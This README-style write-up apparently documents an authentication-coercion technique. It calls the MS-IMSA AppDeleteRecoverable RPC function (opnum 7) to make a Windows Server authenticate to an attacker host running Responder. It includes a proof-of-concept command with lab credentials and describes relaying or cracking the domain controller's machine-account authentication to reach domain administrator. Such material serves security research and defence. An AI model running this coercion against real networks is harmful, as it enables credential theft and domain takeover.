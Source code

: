 # MS-IMSA - Remote call to AppDeleteRecoverable (opnum 7)

## Summary

 - **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

 - **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`AppDeleteRecoverable`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/1cf9dc36-3a02-4a6a-a2be-6d491a130e93)

 - **Function operation number**: `7`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`AppDeleteRecoverable`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/1cf9dc36-3a02-4a6a-a2be-6d491a130e93) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
AppDeleteRecoverable('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AppDeleteRecoverable(
   [in, unique, string] LPCWSTR szMDPath,
   [in] BOOL fRecursive
 );
```

## References

 - Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

 - Documentation of function `AppDeleteRecoverable`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/1cf9dc36-3a02-4a6a-a2be-6d491a130e93